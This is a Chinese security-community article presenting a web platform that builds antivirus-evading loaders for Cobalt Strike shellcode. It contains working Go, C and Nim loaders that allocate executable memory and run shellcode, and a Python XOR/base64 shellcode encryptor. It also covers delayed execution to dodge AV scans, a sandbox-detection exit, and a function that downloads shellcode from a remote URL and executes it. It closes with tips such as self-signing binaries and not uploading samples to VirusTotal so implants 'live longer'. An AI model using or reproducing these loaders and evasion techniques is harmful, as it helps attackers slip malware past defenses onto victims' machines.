

# Golang 免杀与 AV Evasion Craft Online 在线免杀生成平台 - 先知社区

Golang 免杀与 AV Evasion Craft Online 在线免杀生成平台

- - -

在使用一些开源的免杀项目时，通常需要将 Cobalt Strike 中的 shellcode 手动复制到源码里，然后手动编译，还需要花一些时间来搭建环境。

团队协作时编译后的 exe 可能存在分发问题，比如：每个人都需要一个环境，下载项目，编码/加密 Shellcode，然后再编译，分发。

这样的过程是可以放在服务器中的，一个通过 Web 界面来实现多人分发。由后端服务器代码实现编码/加密 Shellcode，替换随机函数名称，添加无用（混淆）代码。

故，本项目诞生了。  
项目下载地址：[https://github.com/yutianqaq/AVEvasionCraftOnline](https://github.com/yutianqaq/AVEvasionCraftOnline)  
压缩包默认密码为 yutian（为防止浏览器扫描）

# AV Evasion Craft Online

本文将解释 AV Evasion Craft Online 基本原理和处理流程、一些杀软对抗理论知识、沙箱对抗小 tips 以及 Go 基础免杀、三种载入方式的实现。

> 杀软对抗需要从各个层面进行，一个免杀的植入物只是开始

## 程序基本处理流程

程序基本处理流程如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125222647-c57153be-bb8d-1.png)

1、用户发送生成请求

2、Shellcode 转换（编码、加密、压缩）

3、工作目录初始化

-   生成一个唯一的 UUID 用于命名工作目录
-   原始模板代码复制到工作目录

4、模板预处理（混淆、填充数据）

-   生成随机函数名称
-   填充转换后的 Shellcode
-   填充用于解密的 Key

5、编译

-   根据选择的模板使用对应的编译器编译

6、将最终结果打包 zip，返回给用户包括（转换后的 Shellcode、生成的植入物等）

通过这样的处理方式，每一次生成都是重新编译。便捷的生成方式一定程度上避免每次都用同一个植入物

## 模板的存放/处理

模板的存放/处理结构：

通过目录结构存放和管理模板，可以方便的实现模板的轻松扩展和多样化。在这一结构中，能够有序地存储各类模板，Shellcode 转换方式和 Shellcode 存储位置等。可以简化模板的维护。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125222734-e1b657cc-bb8d-1.png)

**服务端部分的模板映射管理**

在 template 目录创建了相应的模板后，还需要在服务端中的 yaml 配置文件来建立映射，通过 yaml 格式可以轻松管理模板，而不必建立数据库或者存放在 java 源码中。

```plain
bypassav:
  templates-directory: /home/kali/AVEvasionCraftOnline/template
  storage-directory: /home/kali/AVEvasionCraftOnline/download
  compilerwork-directory: /home/kali/AVEvasionCraftOnline/compiler
  templates-mapping:
    go_VirtualAlloc:
      loadMethod:
        - EMBEDDED
        - REMOTE
        - LOCAL
      transformation:
        - base64Xor
        - xor
    nim_VirtualAlloc:
      loadMethod:
        - EMBEDDED
        - LOCAL
      transformation:
        - xor
    c_VirtualAlloc:
      loadMethod:
        - EMBEDDED
      transformation:
        - none
  compiler-c: x86_64-w64-mingw32-gcc
  compiler-nim: nim
  compiler-golang: go
```

通过接口获取模板参数的必要数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125222751-ebc56bea-bb8d-1.png)

便可以让前端页面动态的获取配置文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125222756-ee79abc6-bb8d-1.png)

## Shellcode 处理部分 - base64 与多字节 xor

> 仅格式转换的 shellcode（base64、bsae58、单字节 xor 等不具备对抗静态分析），加密才能对抗一部分静态分析（最好是自定义的）

由于 Cobalt Strike 的 Shellcode 存在时间很久，已经被各大厂商做了特征识别，

一个再好的 Loader，使用了原始的 Cobalt Strike Shellocde 也会被杀，因为你的 Shellcode 会很明显的出现在二进制文件中。如下图所示，仅通过查看静态文件就能得到原始字符。Cobalt Strike Shellcode 同理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125222800-f13475e4-bb8d-1.png)

所以对 Shellcode 进行编码、加密是必要的。为什么选用的是 Base64 编码和多字节异或？

单字节异或会被暴力破解，而多字节不会，再加上平台使用了随机生成的 key。在静态层面已经能够绕过一些杀毒软件。

但是判断是否为恶意软件还有一个指标——熵值。越混乱（随机）熵值越高。

根据 [https://practicalsecurityanalytics.com/file-entropy/](https://practicalsecurityanalytics.com/file-entropy/) 中的描述，大部分非恶意软件熵值在 4.8-7.2

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125222805-f3f38ee6-bb8d-1.png)

例如原始的 CS Shellcode 熵值如下

```plain
sigcheck.exe -a .\https_x64.xprocess.bin
        Entropy:        7.226
```

多字节异或后，熵值变化不大

```plain
sigcheck.exe -a .\https_x64.xprocess_encrypted.xor.bin
        Entropy:        7.728
```

base64 编码由字母数字组成，所以经过 base64 编码后，熵值仅 5.965，缺点是会增大 Shellcode 大小。

平台提供两种方式（base64xor、多字节 xor），可供使用者权衡

```plain
sigcheck.exe -a .\https_x64.xprocess_encrypted.base64xor.bin
        Entropy:        5.965
```

## Shellcode 存储位置

当 Shellcode 内嵌在代码中，程序的熵值会大大增加，如图所示 4.71 是没有 CS Shellcode 状态，而添加了 Shellcode 后，熵值变为了 7.719 已经大于了正常文件的熵值。为了解决这点，可以将 Loader 与 Shellcode 分开存放。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125222811-f77fa0fe-bb8d-1.png)

平台提供另外两种方式，一种通过读取本地资源来载入 Shellcode，一种通过读取远程文件来获取 Shellcode。

将 Shellcode 与 Loader 分离存放就能减少 Loader 的熵值。

在服务端代码中处理逻辑如下，首先初始化编译工作目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125223414-d04abeaa-bb8e-1.png)

接着会将模板复制到工作目录中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125223258-a28a79d8-bb8e-1.png)

对模板做预处理动作，随机函数名称填充、转换后的 Shellcode 填充、用于解密的 key 值填充

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125223317-adf14130-bb8e-1.png)

模板填充完成，进行编译。编译完成的 exe 将会在唯一的工作目录中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125222912-1c052084-bb8e-1.png)

接下来将是调用 saveFileZIP 将工作目录中的文件（转换后的 Shellcode、生成的 exe），打包为 zip 压缩包返回给用户。并清理工作环境。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125222905-18243784-bb8e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125222930-26d0081c-bb8e-1.png)

## C、Nim

为什么选择了 C、Nim——因为扩展容易，多语言的编译，增一些多样性。通过 nim 直接嵌入 C 代码即可打包，，也能“包”一层 nim 规避一些静态层面查杀。

如图所示，将 C 代码直接复制到 nim 中，可以正常打包以及运行，缺点就是体积会大很多，不过可以通过改变编译参数来缩小体积。

```plain
nim c -d:minwg -d:release --app=gui --cpu=amd64 .\HelloEntropy.nim
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125223003-3a7a6ce0-bb8e-1.png)

```plain
{.emit: """

#include <windows.h>

unsigned char calc_payload[] = { 0x90, 0x90, 0x90, 0xBA, 0xDD, 0xBE, 0xEF, 0x90 };


unsigned int payload_len = sizeof(calc_payload);

int Ldrx(void) {

    PVOID calcSt;
    HANDLE calcTH;
    DWORD oldProtectCalc = 0;
    calcSt = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(calcSt, calc_payload, payload_len);
    VirtualProtect(calcSt, payload_len, PAGE_EXECUTE_READ, &oldProtectCalc);
    calcTH = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)calcSt, 0, 0, 0);
    WaitForSingleObject(calcTH, -1);
    return 0;
}

""".}
proc Ldr(): int
    {.importc: "Ldrx", nodecl.}

when isMainModule:
    var result = Ldr()
```

同样的代码，有了 nim 的“包裹”，也会为逆向分析增加一定难度

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125223014-40e0b864-bb8e-1.png)

# Go 免杀

平台自带的杀软对抗方案主要是 Go 语言的，使用 Go 语言来编写恶意软件，有几个优点：相对 C 语言，语法简单，库生态也较为丰富（对于对抗杀软来说，例如 syscall，c 语言有的 api go 也有），缺点是生成体积较大。但对抗国内杀软已经足够。

下面是 golang 调用 Shellcode 的几种方式，SyscallN 已经集成在默认模板中，CreateThread 和 EnumThreadWindows 的方式在读完文章后可以自行加入到模板中

## SyscallN

这是平台自带模板中的代码片段，加载器通过 syscall 直接系统调用来申请一块内存，使用自实现的 WriteMemory 函数来将 Shellcode 写入到内存中，然后调用 SyscallN 来执行。

```plain
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    syscall.SyscallN(Ptr1, 0, 0, 0, 0)
}
```

## CreateThread

除了通过 SyscallN 调用 Shellcode 还可以通过 CreateThread API 来调用 Shellcode，实现如下

```plain
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    fCreateThread, _        := mKernel32.FindProc("CreateThread")
    fWaitForSingleObject, _ := mKernel32.FindProc("WaitForSingleObject")

    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    TtdAddr, _, _ := fCreateThread.Call(0, 0, Ptr1, 0, 0, 0)
    fWaitForSingleObject.Call(TtdAddr, 0xFFFFFFFF)
}
```

## EnumThreadWindows

也可以使用 `EnumThreadWindows` API 来调用 Shellcode

```plain
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    mUser32, _ := syscall.LoadDLL("user32.dll")

    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    fenumThreadWindows, _ := mUser32.FindProc("EnumThreadWindows")
    fenumThreadWindows.Call(0, Ptr1, 0)
}
```

有了更多的 API 调用 Shellcode 就可以一定程度上避免被杀软识别为恶意软件。

除了多样化的 API 调用 Shellcode 还需要对 Shellcode 进行编码，作为调试阶段，可以使用 Python 来制作 base64+ 多字节 xor 转换的 Shellcode。代码如下

```plain
import os
import sys
import argparse
import random
import string
import base64

def generate_random_string(length):
    characters = string.ascii_letters + string.digits
    random.seed()
    random_string = ''.join(random.choice(characters) for _ in range(length))
    return random_string

def xor_encrypt(plaintext, key):
    ciphertext = bytearray()
    key_length = len(key)
    for i, byte in enumerate(plaintext):
        key_byte = key[i % key_length]
        encrypted_byte = byte ^ key_byte
        ciphertext.append(encrypted_byte)
    return bytes(ciphertext)

def save_to_file(data, filename):
    with open(filename, "wb") as file:
        file.write(data)

def print_hex_array(data):
    print('{ 0x' + ', 0x'.join(hex(x)[2:] for x in data) + ' };')

def main():
    parser = argparse.ArgumentParser(description='XOR encrypt a binary file.')
    parser.add_argument('filename', help='Path to the binary file to be encrypted')

    args = parser.parse_args()
    filename = args.filename

    try:
        with open(filename, "rb") as file:
            plaintext = file.read()
    except FileNotFoundError:
        print(f"Error: File '{filename}' not found.")
        sys.exit(1)

    file_size = os.path.getsize(filename)
    key = generate_random_string(10).encode("utf-8")
    ciphertext = xor_encrypt(plaintext, key)

    output_filename = f"{filename[:-4]}_encrypted.bin"
    save_to_file(ciphertext, output_filename)

    print(f"[*] XOR encrypted: {output_filename}")
    print(f"[*] Key length: {len(key)}")
    print(f"[*] Payload length: {file_size}")
    print(f"[*] Key: {key}")
    print_hex_array(key)
    print(f"[*] Base64 encoded ciphertext: {base64.b64encode(ciphertext).decode()}")

if __name__ == "__main__":
    main()
```

使用方法，将 Shellcode 作为函数名称传入，会返回转换后的 Shellcode

```plain
python .\xor.py .\calc.bin
[*] XOR encrypted: .\calc_encrypted.bin
[*] Key length: 10
[*] Payload length: 276
[*] Key: b'LAny0PUdn4'
{ 0x4c, 0x41, 0x6e, 0x79, 0x30, 0x50, 0x55, 0x64, 0x6e, 0x34 };
[*] Base64 encoded ciphertext: sAntncC4lWRuNA0QLyliAQMsX+YpCeUrUBjeNnZ8xxNOMbsiBSxhgwYLI0j5GGSkwggtPWxVEBGUrWN1TYCMlGIRBCzlZmzKLEV4UYXv7rxMQW4xtZAhAyY1nBHlMSgU3iROfU2RjS94r5wl5QDECW+vfWGcLF/04ACvsD0RVKVW1DmwInp8dF0hV+U5mTY9uxBxLW/kKgDldXgU3iRyfU2RL/I02B1lvnUUADYnaQoUPC9tDRsm+txwFDaR1BQANyN420eNOcuzvjMxilFVZG40TEFuMb3dVGVuNA37X/Jf16qx1cT54zg4ivbA2fPLmQntvRhsUxhktLehG3yLF0YWAV5MGC/w6q+ABw9YL28LAVVQ
```

一个使用 golang 写的基础免杀模板已经完成，此时还可以加入延迟加载，沙箱对抗等操作

**延迟加载**

新启动一个 exe 杀软会在短时间内扫描，以识别是否为恶意软件，如果此时我们的程序不进行操作，而是等待一段时间后在调用 Shellcode。这样就可以规避杀软扫描，在被扫描完成后再加载、调用 Shellcode。代码如下

```plain
func Sleeeep()  {
    res := 1
    for i := 0; i < 5; i++ {
        number := rand.Intn(900) + 100
        res *= number
    }
    time.Sleep(10 * time.Second)
}
```

通过生成随机数来实现抖动的延迟加载。

**沙箱对抗**

用过某沙箱的都知道，它的运行程序会在 c:\\随机 7 个字符组成\\xxx.exe 下运行。

知道了这个特点，可以判断当前程序运行在什么地方，来判断是否继续运行。代码如下

```plain
func main() {

    args := os.Args[0]
    fmt.Println("当前运行路径:", args)
}
```

运行结果

```plain
PS C:\jw6z6jr> .\demo2.exe
当前运行路径：C:\jw6z6jr\demo2.exe
```

写一个 if 来判断

```plain
func main() {

    args := os.Args[0]
    fmt.Println("当前运行路径:", args)
    if (args[10] == 92 && (args[0] == 99 || args[0] == 67)) {
        os.Exit(0)
}
```

其中 92 是 / 99 是 C 67 是 c

有一些沙箱会修改文件名后运行，根据此输出，我们可以扩展以下，继续判断名字是否被修改，如果修改了，则退出运行。

至此，实现了内嵌式的 Shellcode 存储方式，我们还可以将 Shellcode 存储在远程服务器或者存在本地，将 Shellcode 分离出来。

## Golang - 分离免杀 - 本地分离

Golang 读取文件很简单只需要导入 `"io/ioutil"`，在使用 ReadFile 来读取，就可以实现 Shellcode 不在程序中，而在外部，这样将大大降低被杀的可能性。

```plain
content, err := ioutil.ReadFile("{{LOCAL_FILENAME}}")
    if err != nil {
        return
    }
```

## Golang - 分离免杀 - 远程分离

在 Golang 中，还可以使用 `"github.com/valyala/fasthttp"`库，来请求远程的 Shellcode

封装一个函数，方便复用，代码如下

```plain
func fetchShellcode() []byte {

    url := "{{REMOTE_URL}}"

    _, body, _ := fasthttp.Get(nil, url)

    return body
}
```

在 main 函数中，使用一个变量来接受返回的数据，再传给 Ldr1 函数

```plain
func main() {

    args := os.Args[0]
    if (args[10] == 92 && (args[0] == 99 || args[0] == 67)) {
        os.Exit(0)
    }

    Sleeeep()

    ciphertext := fetchShellcode()

    byteData := DecryptData(string(ciphertext))

    Ldr1(byteData)

}
```

## 将 CreateThread 调用方式添加到模板中

复制一份 go\_VirtualAlloc 重命名为 go\_CreateThread，并将目录下的 go\_VirtualAlloc.go 也重命名为 go\_CreateThread.go，命名完成目录结构如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125223516-f4cb8a8e-bb8e-1.png)

借助 Vscode 做如下替换。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125223108-613135bc-bb8e-1.png)

接着改变 yaml 配置文件，加入以下代码

```plain
go_CreateThread:
      loadMethod:
        - EMBEDDED
        - REMOTE
        - LOCAL
      transformation:
        - base64Xor
        - xor
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125223112-63c57d4c-bb8e-1.png)

Done!

同样的实现 EnumThreadWindows 替换也是如此。

更多 api 调用 shellcode 请参考 [https://github.com/xiecat/AlternativeShellcodeExec-Go](https://github.com/xiecat/AlternativeShellcodeExec-Go) 感谢该仓库作者付出。

## 结语

最后的小 tips，通过修改编译参数，增加资源，增加自签名，可以规避一些杀软。（能过目标上的杀软即可，不要上传沙箱、VT）可以活的更久一点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125223119-67961f12-bb8e-1.png)

总结

杀软对抗需要从各个层面进行，一个免杀的植入物只是开始。

更好的对抗杀软可以从以下方面进行：

-   自定义的编码、加密（低熵的）
-   不同的 Shellcode 方式
-   不同的语言实现，基础免杀的本质是 API 调用，更换不常见的 API、不同的调用方式就能过掉一部分。
-   良好的反沙箱、反分析机制
    -   例如，只会在特定环境下运行（针对目标的环境）
    -   是否加入域、临时文件判断、内存、cpu、电脑型号等
